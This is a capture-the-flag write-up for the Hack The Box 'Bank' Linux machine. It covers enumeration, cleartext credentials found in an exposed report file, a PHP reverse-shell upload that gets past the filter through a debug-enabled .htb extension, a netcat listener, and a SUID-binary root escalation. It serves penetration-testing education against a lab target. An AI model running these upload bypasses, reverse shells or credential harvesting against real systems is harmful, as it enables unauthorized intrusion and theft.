










+++
title = "Bank"
date = "2023-12-31"
description = "This is an easy Linux box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Linux

**Release date**: 2017-06-16

**Created by**: [makelarisjr](https://app.hackthebox.com/users/95)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great practice security-wise, but it's a VM so it's alright. This way I won't have to prefix some commands with `sudo`, which gets cumbersome in the long run. Heck, it's hard enough to remember the flags for the commands without needing to know the privileges required to run them too!

I like to maintain consistency in my workflow for every box, so before starting with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box. I'll call it `workspace`, and it will be located at the root of my filesystem `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll run `httpsimpleserver` to create an HTTP server and `impacket-smbserver` to create an SMB share named `server`. This will make files in this folder available over the Internet, which will be especially useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory. This will come in handy once we get a foothold, for privilege escalation and for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the complexity of some exploits, and prefer a more manual approach when it's not too much hassle to really understand what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.20`, while the target machine's IP address will be `10.10.10.29`. The commands ran on my machine will be prefixed with `❯` for clarity, and if I ever need to transfer files or binaries to the target machine I'll always place them in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Remote enumeration

## Host discovery

Well, we already know the IP we are targeting, so this phase is actually empty!

## TCP port scanning

As usual, I'll initiate a port scan on Bank using a TCP SYN `nmap` scan to assess its attack surface.

```sh
❯ nmap -sS 10.10.10.29 -p-
```

```
<SNIP>
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http
<SNIP>
```

## Service fingerprinting

Following the port scan, let's gather more data about the services associated with the open ports we found.

```sh
❯ nmap -sS 10.10.10.29 -p 22,53,80 -sV
```

```
<SNIP>
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
<SNIP>
```

Alright, so `nmap` managed to determine that Bank is running Linux, and the SSH version suggests that it might be Ubuntu. That's good to know!

## Scripts

Let's run `nmap`'s default scripts on these services to see if they can find additional information.

```sh
❯ nmap -sS 10.10.10.29 -p 22,53,80 -sC
```

```
<SNIP>
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open  domain
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http
|_http-title: Apache2 Ubuntu Default Page: It works
<SNIP>
```

The `http-title` script found that the HTTP title of the home page of the Apache server on port `80/tcp` is 'Apache2 Ubuntu Default Page: It works'.

This name implies that it's the default page for an Apache version `2` installation, so there would be nothing to find...

## DNS (port `53/tcp`)

### All records for `bank.htb`

Let's query the DNS server for all records about `bank.htb`, which is probably the domain name for this box (according to HTB's naming habits):

```sh
❯ dig any bank.htb @10.10.10.29
```

```
<SNIP>

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;bank.htb.                      IN      ANY

;; ANSWER SECTION:
bank.htb.               604800  IN      SOA     bank.htb. chris.bank.htb. 5 604800 86400 2419200 604800
bank.htb.               604800  IN      NS      ns.bank.htb.
bank.htb.               604800  IN      A       10.10.10.29

;; ADDITIONAL SECTION:
ns.bank.htb.            604800  IN      A       10.10.10.29

<SNIP>
```

It has a `SOA` entry for `bank.htb` and `chris.bank.htb`! Let's add them to our hosts file.

```sh
❯ echo "10.10.10.29 bank.htb chris.bank.htb" | tee -a /etc/hosts
```

Now let's see what these domains are holding.

## Apache (port `80/tcp`)

Let's browse to `http://bank.htb/` and see what we get.



We are redirected to `/login.php`! And we don't get a default installation web page as expected in the [Scripts](#scripts) section, but instead a login form!

### Common credentials

We can try to enter common credentials, but it doesn't work. It returns this error message:



### Under the hood

When we press the 'Submit query' button, a POST request is actually sent to `/login.php` with the data:

```html
inputEmail=email&inputPassword=password&submit=Submit+Query
```

The response code is `200` in case of an invalid login request, and the response body contains the HTML of the homepage with the error message.

### HTTP headers

Let's check out the HTTP response headers when we request the homepage.

```sh
❯ curl http://bank.htb/ -I
```

```
HTTP/1.1 302 Found
Date: Sat, 30 Dec 2023 21:47:48 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.21
Set-Cookie: HTBBankAuth=b6lfm7rm6oj1tvava1lvardgl5; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
location: login.php
Content-Type: text/html
```

As we noticed while browsing to `http://bank.htb/`, there's a redirection to `/login.php`. However, the `Server` header indicates that the web server is Apache version `2.4.7`, corresponding to the Ubuntu distribution. Moreover, the `X-Powered-By` header leaks that PHP version `5.5.9` is used.

### Technology lookup

While we're at it, let's look up the technologies used by this website with the [Wappalyzer](https://www.wappalyzer.com/) extension.



So it confirms what we already discovered, but it also reveals that this website is using Bootstrap and libraries like jQuery.

### Site crawling

Let's crawl the website to see if I there's interesting linked web pages.

```sh
❯ katana -u http://bank.htb/
```

```
<SNIP>
[INF] Started standard crawling for => http://bank.htb/
http://bank.htb/
http://bank.htb/assets/js/theme/custom.js
http://bank.htb/assets/js/plugins/morris/raphael.min.js
http://bank.htb/assets/js/plugins/morris/morris.min.js
http://bank.htb/assets/js/js/bootstrap.min.js
http://bank.htb/index.html
http://bank.htb/assets/js/plugins/morris/morris-data.js
http://bank.htb/assets/css/theme/styles.css
http://bank.htb/login.php
http://bank.htb/assets/js/bootstrap.min.js
http://bank.htb/assets/js/sweetalert.min.js
http://bank.htb/assets/css/bootstrap.min.css
http://bank.htb/assets/js/jquery.js
http://bank.htb/a
```

It looks like this website is using plugins like Raphael.js and Morris.js.

The `custom.js` file could be interesting... lets check it.

```js
$(document).ready(function () {
    $(".submenu > a").click(function (e) {
        e.preventDefault();
        var $li = $(this).parent("li");
        var $ul = $(this).next("ul");

        if ($li.hasClass("open")) {
            $ul.slideUp(350);
            $li.removeClass("open");
        } else {
            $(".nav > li > ul").slideUp(350);
            $(".nav > li").removeClass("open");
            $ul.slideDown(350);
            $li.addClass("open");
        }
    });
});
```

It's really not interesting.

The `a` file is also very unusual, but if we browse to it we get a `404` webpage.

I don't see anything interesting.

### Directory fuzzing

Let's see if this website hides unliked web pages and directories.

```sh
❯ ffuf -v -c -u http://bank.htb/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e .php
```

```
<SNIP>
[Status: 302, Size: 7322, Words: 3793, Lines: 189, Duration: 29ms]
| URL | http://bank.htb/index.php
| --> | login.php
    * FUZZ: index.php

[Status: 200, Size: 1974, Words: 595, Lines: 52, Duration: 24ms]
| URL | http://bank.htb/login.php
    * FUZZ: login.php

[Status: 302, Size: 3291, Words: 784, Lines: 84, Duration: 28ms]
| URL | http://bank.htb/support.php
| --> | login.php
    * FUZZ: support.php

[Status: 301, Size: 305, Words: 20, Lines: 10, Duration: 25ms]
| URL | http://bank.htb/uploads
| --> | http://bank.htb/uploads/
    * FUZZ: uploads

[Status: 301, Size: 304, Words: 20, Lines: 10, Duration: 24ms]
| URL | http://bank.htb/assets
| --> | http://bank.htb/assets/
    * FUZZ: assets

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 25ms]
| URL | http://bank.htb/logout.php
| --> | index.php
    * FUZZ: logout.php

[Status: 301, Size: 301, Words: 20, Lines: 10, Duration: 22ms]
| URL | http://bank.htb/inc
| --> | http://bank.htb/inc/
    * FUZZ: inc

[Status: 403, Size: 279, Words: 21, Lines: 11, Duration: 25ms]
| URL | http://bank.htb/.php
    * FUZZ: .php

[Status: 302, Size: 7322, Words: 3793, Lines: 189, Duration: 30ms]
| URL | http://bank.htb/
| --> | login.php
    * FUZZ: 

[Status: 403, Size: 288, Words: 21, Lines: 11, Duration: 27ms]
| URL | http://bank.htb/server-status
    * FUZZ: server-status

[Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 24ms]
| URL | http://bank.htb/balance-transfer
| --> | http://bank.htb/balance-transfer/
    * FUZZ: balance-transfer
<SNIP>
```

There's a few good hits.

The path `/support.php` could be interesting, but it redirects to `/login.php`.

There's also `/inc` which redirects to `/inc/`, and `/balance-transfer` which redirects to `/balance-transfer/`.

### Exploring `/inc/`

Let's browse to `http://bank.htb/inc/`:



Okay, so there's a few PHP files, probably the source code of the website.

One of them is named `header.php`, and if we click on it we are redirected to `/inc/login.php`. Therefore, it must be included in all PHP files, perhaps for handling authentication!

Unfortunately, there's no way to retrieve the source code of the PHP files, as the code gets executed if we browse to these files.

### Exploring `/balance-transfer/`

Let's browse to `http://bank.htb/balance-transfer/`:



There's a massive amount of `.acc` files.

I'll download the first one. Its content is the following:

```
++OK ENCRYPT SUCCESS
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: czeCv3jWYYljNI2mTedDWxNCF37ddRuqrJ2WNlTLje47X7tRlHvifiVUm27AUC0ll2i9ocUIqZPo6jfs0KLf3H9qJh0ET00f3josvjaWiZkpjARjkDyokIO3ZOITPI9T
Email: 1xlwRvs9vMzOmq8H3G5npUroI9iySrrTZNpQiS0OFzD20LK4rPsRJTfs3y1VZsPYffOy7PnMo0PoLzsdpU49OkCSSDOR6DPmSEUZtiMSiCg3bJgAElKsFmlxZ9p5MfrE
Password: TmEnErfX3w0fghQUCAniWIQWRf1DutioQWMvo2srytHOKxJn76G4Ow0GM2jgvCFmzrRXtkp2N6RyDAWLGCPv9PbVRvbn7RKGjBENW3PJaHiOhezYRpt0fEV797uhZfXi
CreditCards: 5
Transactions: 93
Balance: 905948 .
===UserAccount===
```

I'll do the same for the second one:

```
++OK ENCRYPT SUCCESS
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: WSO99GxdMW3WYxJwPIEqJHyt5UEAxnKtfyDpfaC16GY5dIB3rgtaY1E3WjDtGnWWWAlcKYdREbWSUxVlNpvLraPnttQaRN6Onr08pdZ4pWWjuREhha3IlT5OmVYdJ416
Email: w1fWfe1EbXYFPDX6N1O8UTXhPWuz1wGxyVuNavsltq0i3YpRZe0T8YaXUFxVcdtK8Xyit0EWrFfuDFmCTmw1kGYfmwayJDjRBRa5SP2juhO7WaJPxfRSWQ7jmhS5VbXw
Password: 38CVXEerW3zSdjILzzDvpKPL1HRXTOuXW6TUK8mGbVzoei9NSNjhx83zQVwKJ1IG7BBSJXzUS8j7qtUjgeAOnEnezUZjVH03iBV1zuWsDfz4IunZIYN6Cakc5jw00w3i
CreditCards: 0
Transactions: 149
Balance: 3301234 .
===UserAccount===
```

These files look really similar!

According to the header, they constitute bank reports of transactions. There's a few fields like `CreditCards`, `Transcations` and `Balance` that keep track of some data. The `Full Name`, `Email` and `Password` seem to be encrypted though, as indicated by the '++OK ENCRYPT SUCCESS' message. With this information, we would've been able to log in as these users...

Let's try to retrieve it then!

### Hash cracking

Let's enter the email of the first file we downloaded on [Crackstation](https://crackstation.net/). Here's the result:



Unfortunately, the hash format wasn't recognized.

### Failed encryption

The `.acc` files we opened had encrypted login information, so we were unable to use it to log in to the website. But maybe the encryption failed for one of them?

Let's get the number of files first.

```sh
❯ curl -s http://bank.htb/balance-transfer/ | grep -oP '\S+\.acc' | wc -l
```

```
999
```

So there's `999` files. This would be impossible to manually download and verify each file, so we have to think here.

If the encryption failed for one of these files, the `Full Name`, `Email` and `Password` would be in plaintext. We've seen that the encrypted form was really long, likely lengthier that the initial values. Therefore, if the encryption failed for one file, it should have a shorter size! Assuming there's no endless error message if the encryption failed, which would make the size bigger than the other files.

If we browse to `http://bank.htb/balance-transfer/` again, we can click on `Size` to sort the files by size. We see that one file named `	68576f20e9732f1b2edc4df5b8533230.acc` has a size of `257` instead of `580`-ish! Let's download it and get its content.

```
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===
```

We have cleartext credentials!

### Logging in as `chris`

Let's try these credentials to log in to the Apache website.


It worked! We have access to an interface displaying various information related to `chris`'s bank account, like 'Balance', 'Total Transactions' or 'CreditCard Information'.

There's also a 'Support' tab, which redirects to `/support.php`.



We can fill a form to send a ticket.

What looks interesting is that we can choose a file to submit, and see our tickets afterwards. Maybe we could use this to upload a shell and get it to execute on the server?

# Foothold (File upload)

Let's try this theory to obtain a reverse shell.

## Preparation

I'll use [this website](https://www.revshells.com/) to find appropriate payloads.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp 9001
```

```
listening on [any] 9001 ...
```

Now, let's create the PHP file to get the reverse shell. I'm going to use the 'PHP Ivan Sincek' one from the last website, configured to use a `sh` shell. The payload is more than 100 lines long, so I won't include it here.

Let's save it as `/workspace/revshell.php`.

## Exploitation

Now let's fill the form with random values, and choose the `revshell.php` file.



Let's press 'Submit'.


Unfortunately, the website validated the image and realized that it wasn't a file.

### Bypassing the validation

I replayed the request using Caido, and it turns out that adding a double extension `.php.png` is enough to bypass the validation.

Let's try again to fill the form, with the new named file.



It worked. The ticket is now listed in the 'My Tickets' section.



Let's click on 'Click Here' to see our reverse shell.


Unfortunately, it doesn't get executed...

### Finding a valid extension

I tried others extensions used to execute PHP code, but they are all blocked.

At this point, I checked the previous requests using Caido for any hints. And I found one in `/support.php`'s body:

```html
<SNIP>
<!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] -->
<SNIP>
```

It looks like what we were looking for! Let's try once again to upload a reverse shell PHP file, this time with a `.htb` extension. Then, I'll access it to execute it.

```
connect to [10.10.14.20] from (UNKNOWN) [10.10.10.29] 37278
SOCKET: Shell has connected! PID: 1268
```

The listener caught the shell!

This shell is quite limited though, so let's execute a Python one-liner to transform it into an interactive one:

```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
www-data@bank:/var/www/bank/uploads$
```

That's better!

# Local enumeration

If we run `whoami`, we see that we got access as `www-data`.

## Distribution

Let's see which distribution Bank is using.

```sh
Bankwww-data@bank:/var/www/bank/uploads$ cat /etc/os-release
```

```
NAME="Ubuntu"
VERSION="14.04.5 LTS, Trusty Tahr"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 14.04.5 LTS"
VERSION_ID="14.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
```

So this is Ubuntu 14.04.5, okay. That's pretty recent, so we're unlikely to find vulnerabilities here.

## Architecture

What is Bank's architecture?

```sh
Bankwww-data@bank:/var/www/bank/uploads$ uname -m
```

```
i686
```

So this system is using x86. This will be useful to know if we want to compile our own exploits.

## Kernel

Maybe Bank is vulnerable to a kernel exploit?

```sh
Bankwww-data@bank:/var/www/bank/uploads$ uname -r
```

```
4.4.0-79-generic
```

It's a bit old, maybe there's some vulnerabilities here.

## AppArmor

Let's list the applications AppArmor profiles:

```sh
Bankwww-data@bank:/var/www/bank/uploads$ ls -lap /etc/apparmor.d/ | grep -v '/'
```

```
<SNIP>
-rw-r--r--  1 root root 2489 Apr 15  2016 sbin.dhclient
-rw-r--r--  1 root root 1106 Apr 25  2017 usr.sbin.mysqld
-rw-r--r--  1 root root 1342 Apr 13  2017 usr.sbin.named
-rw-r--r--  1 root root 1394 Apr 25  2015 usr.sbin.rsyslogd
-rw-r--r--  1 root root 1455 Feb 21  2017 usr.sbin.tcpdump
```

That's pretty classic.

## NICs

Let's gather the list of connected NICs.

```sh
Bankwww-data@bank:/var/www/bank/uploads$ ip a
```

```
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:7c:8c brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.29/24 brd 10.10.10.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:7c8c/64 scope global dynamic 
       valid_lft 86391sec preferred_lft 14391sec
    inet6 fe80::250:56ff:feb9:7c8c/64 scope link 
       valid_lft forever preferred_lft forever
```

So there's only the loopback interface and the Ethernet interface.

## Hostname

What is Bank's hostname?

```sh
Bankwww-data@bank:/var/www/bank/uploads$ hostname
```

```
bank
```

Yeah I know, very surprising.

## Local users

Let's enumerate all the local users that have a console.

```sh
Bankwww-data@bank:/var/www/bank/uploads$ cat /etc/passwd | grep "sh$" | cut -d: -f1
```

```
root
chris
```

There's only `root` and `chris` (us).

## Local groups

Let's retrieve the list of all local groups.

```sh
Bankwww-data@bank:/var/www/bank/uploads$ getent group | cut -d: -f1 | sort
```

```
adm
audio
backup
bin
bind
cdrom
chris
crontab
daemon
dialout
dip
disk
fax
floppy
fuse
games
gnats
irc
kmem
landscape
libuuid
list
lp
lpadmin
mail
man
messagebus
mlocate
mysql
netdev
news
nogroup
operator
plugdev
proxy
root
sambashare
sasl
shadow
src
ssh
ssl-cert
staff
sudo
sys
syslog
tape
tty
users
utmp
uucp
video
voice
www-data
```

That's pretty classic.

## User account information

Let's see to which groups we currently belong

```sh
Bankwww-data@bank:/var/www/bank/uploads$ groups
```

```
www-data
```

We only belong to the default group for our user.

## Home folder

We can try to check for our home folder, but since we are not a real user, we don't have any.

We have access to `chris`'s home folder though:

```sh
www-data@bank:/var/www/bank/uploads$ ls -la /home/chris
```

```
<SNIP>
drwxr-xr-x 3 chris chris 4096 Jan 11  2021 .
drwxr-xr-x 3 root  root  4096 Jan 11  2021 ..
lrwxrwxrwx 1 root  root     9 Jan 11  2021 .bash_history -> /dev/null
-rw-r--r-- 1 chris chris  220 May 28  2017 .bash_logout
-rw-r--r-- 1 chris chris 3637 May 28  2017 .bashrc
drwx------ 2 chris chris 4096 Jan 11  2021 .cache
-rw-r--r-- 1 chris chris  675 May 28  2017 .profile
-r--r--r-- 1 chris chris   33 Dec 31 14:58 user.txt
```

There's the user flag file! And we have access to it. Let's get it.

```sh
www-data@bank:/var/www/bank/uploads$ cat /home/chris/user.txt
```

```
c4a83bcaf0ac74d106ecc4c0f3f5ab39
```

## Command history

We can try to check the history of the commands `chris` ran, but it's discarded into `/dev/null`.

## Website code review

Let's review the content of the website about the bank, located at `/var/www/bank`.

```php
<?php
    <SNIP>
    $pageName = "Dashboard";
    include './inc/header.php';
    require './inc/user.php';
    $user = new User();
?>
<SNIP>
<?php
    include './inc/footer.php';
?>
```

The `index.php` page is not really interesting, it mostly includes other files.

```php
<?php
    <SNIP>
    session_name("HTBBankAuth");
    session_start();

    if(empty($_SESSION['username'])){
        header("location: login.php");
        return;
    }
?>
<SNIP>
```

The `header.php` is responsible for redirecting to the `/login.php` page if the `username` session parameter is empty.

```php
<?php
    <SNIP>

    class User {
        function login($email, $password){
            $mysql = new mysqli("localhost", "root", "!@#S3cur3P4ssw0rd!@#", "htbbank");
            $email = $mysql->real_escape_string($email);
            $password = md5($password);
            $result = $mysql->query("SELECT * FROM users WHERE email = '$email' AND password = '$password'");
            if ($result->num_rows <= 0) {
                return false;
            }
            else {
                return true;
            }
        }
        <SNIP>
    }
?>
```

The `user.php` file is responsible for actually querying the MySQL database to retrieve information. It reveals that the credentials `root`:`!@#S3cur3P4ssw0rd!@#` are used to connect to the `htbbank` database! The password is apparently stored as a MD5 hash.

I tried these credentials to connect to Bank as `root` using SSH, but it failed. I also tried them with `su -`, but they also failed.

## MySQL (port `3306/tcp`)

Let's investigate the MySQL instance running locally on Bank.

```sh
www-data@bank:/var/www/bank/uploads$ mysql -u root -p
```

```
Enter password: !@#S3cur3P4ssw0rd!@#

<SNIP>

mysql>
```

### Version

Let's find out the version of MySQL in use.

```sh
mysql> SELECT @@version;
```

```
+-------------------------+
| @@version               |
+-------------------------+
| 5.5.55-0ubuntu0.14.04.1 |
+-------------------------+
<SNIP>
```

So it's MySQL version `5.5.55`.

### Databases

Now, let's see which databases are available.

```sh
mysql> SHOW databases;
```

```
+--------------------+
| Database           |
+--------------------+
| information_schema |
| htbbank            |
| mysql              |
| performance_schema |
+--------------------+
<SNIP>
```

The `htbbank` database is the only interesting one, and it's also the database used by the website.

### `htbbank`'s tables

Let's see which tables are included in this database.

```sh
mysql> SHOW tables;
```

```
+-------------------+
| Tables_in_htbbank |
+-------------------+
| creditcards       |
| tickets           |
| users             |
+-------------------+
<SNIP>
```

The `users` database is probably the most interesting.

### `users`'s columns

Let's continue our enumeration of this database by checking the content of the `user` table.

```sh
mysql> SELECT column_type, column_name FROM information_schema.columns WHERE table_name = 'users';
```

```
+--------------+-------------+
| column_type  | column_name |
+--------------+-------------+
| int(11)      | id          |
| varchar(255) | username    |
| varchar(255) | email       |
| varchar(255) | password    |
| varchar(255) | balance     |
+--------------+-------------+
<SNIP>
```

Okay, so this table contains five columns: `id`, `username`, `email`, `password` and `balance`.

### `users`'s columns content

Let's retrieve the content of the `username` and `password` columns.

```sh
mysql> SELECT username, password FROM users;
```

```
+------------------------+----------------------------------+
| username               | password                         |
+------------------------+----------------------------------+
| Christos Christopoulos | b27179713f7bffc48b9ffd2cf9467620 |
+------------------------+----------------------------------+
<SNIP>
```

There's a single password, which corresponds to the one we already found.

I tried these credentials to connect to Bank as `chris` using SSH, but it failed. I also tried them with `su chris`, but they also failed.

## Sudo permissions

Let's see if we can execute anything as another user with `sudo`.

```sh
www-data@bank:/var/www/bank/uploads$ sudo -l
```

```
[sudo] password for www-data:
```

We're asked for our password, but we don't know it.

## Environment variables

Let's check the environment variables for our shell. Maybe we'll find something out of the ordinary?

```sh
www-data@bank:/var/www/bank/uploads$ env
```

```
APACHE_PID_FILE=/var/run/apache2/apache2.pid
APACHE_RUN_USER=www-data
APACHE_LOG_DIR=/var/log/apache2
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
PWD=/var/www/bank
APACHE_RUN_GROUP=www-data
LANG=C
SHLVL=1
APACHE_LOCK_DIR=/var/lock/apache2
APACHE_RUN_DIR=/var/run/apache2
_=/usr/bin/env
```

I don't see anything out of the ordinary.

## Listening ports

Let's see if any TCP local ports are listening for connections.

```sh
www-data@bank:/var/www/bank/uploads$ ss -tln
```

```
State      Recv-Q Send-Q        Local Address:Port          Peer Address:Port 
LISTEN     0      10              10.10.10.29:53                       *:*     
LISTEN     0      10                127.0.0.1:53                       *:*     
LISTEN     0      128                       *:22                       *:*     
LISTEN     0      128               127.0.0.1:953                      *:*     
LISTEN     0      50                127.0.0.1:3306                     *:*     
LISTEN     0      128                      :::80                      :::*     
LISTEN     0      10                       :::53                      :::*     
LISTEN     0      128                      :::22                      :::*     
LISTEN     0      128                     ::1:953                     :::*
```

There's a few ports listening locally, including `53/tcp`, `953/tcp` and `3306/tcp`. The first one corresponds to a DNS, and the third one to the MySQL instance we explored earlier. But the second one though? What could it be?

```sh
www-data@bank:/var/www/bank/uploads$ cat /etc/services | grep -E '\b953/tcp\b'
```

There's no output, this port is unknown. Let's try to interact with it:

```sh
www-data@bank:/var/www/bank/uploads$ nc 127.0.0.1 953
```

We can enter input, and it gets echoed back. The connection closes after two attempts.

Let's move on then!

## Processes

Let's use `pspy` to see which processes are running on Bank.

```sh
www-data@bank:/var/www/bank/uploads$ /tmp/pspy
```

```
<SNIP>
```

I don't see any cronjob.

## SUID binaries

Let's look for SUID binaries.

```sh
www-data@bank:/var/www/bank/uploads$ find / -perm -4000 2>/dev/null
```

```
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mtr
/usr/sbin/uuidd
/usr/sbin/pppd
/bin/ping
/bin/ping6
/bin/su
/bin/fusermount
/bin/mount
/bin/umount
```

The `emergency` binary in `/var/htb/bin` is unusual!

## Exploring `/var/htb`

If we explore the `/var/htb` folder, we find an `emergency` file.

```py
#!/usr/bin/python
import os, sys

def close():
    print "Bye"
    sys.exit()

def getroot():
    try:
        print "Popping up root shell..";
        os.system("/var/htb/bin/emergency")
        close()
    except:
        sys.exit()

q1 = raw_input("[!] Do you want to get a root shell? (THIS SCRIPT IS FOR EMERGENCY ONLY) [y/n]: ");

if q1 == "y" or q1 == "yes":
    getroot()
else:
    close()
```

Okay, so this Python script executes the `emergency` binary in `/var/htb/bin`, which we know has the SUID bit set. It probably gives us a root shell!

# Privilege escalation (`/var/htb/emergency`)

Let's execute it:

```sh
www-data@bank:/var/www/bank/uploads$ /var/htb/emergency
```

```
[!] Do you want to get a root shell? (THIS SCRIPT IS FOR EMERGENCY ONLY) [y/n]:
```

Let's enter `y`:

```
[!] Do you want to get a root shell? (THIS SCRIPT IS FOR EMERGENCY ONLY) [y/n]: y
Popping up root shell..
#
```

If we run `whoami`, we see that we are `root`!

Our shell is not really interactive, but I didn't manage to get a better shell.

# Local enumeration

## Home folder

The only thing we need to do to finish this box is to retrieve the root flag!

As usual, we can find it in our home folder.

```sh
# cat /root/root.txt
```

```
45d878f3ef6ef5dca2d000b354a27df6
```

# Afterwords


That's it for this box! The foothold was fairly easy to identify and obtain. The privilege escalation was also really classic, it just required a thorough enumeration to find the `emergency` script and binary. 

Thanks for reading!
